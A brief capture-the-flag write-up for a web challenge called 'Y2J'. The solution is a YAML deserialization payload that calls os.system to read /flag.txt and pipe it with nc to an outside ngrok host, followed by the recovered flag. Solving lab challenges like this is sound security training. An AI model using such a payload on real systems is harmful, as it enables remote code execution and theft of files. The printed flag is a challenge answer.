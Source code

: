 ## Name: Y2J
#### Author: @JohnHammond#6971
#### Category: Web
#### Difficulty: N/D
#### Description: Everyone was so worried about Y2K, but apparently it was a typo all along!!

The real world-ending fears were from Y2J!

Find the flag.txt file in the root of the filesystem.

## Procedure
1




!!python/object/apply:os.system
args: ["cat /flag.txt |nc 2.tcp.ngrok.io 11855"]


flag{b20870a1955ac22377045e3b2dcb832a}
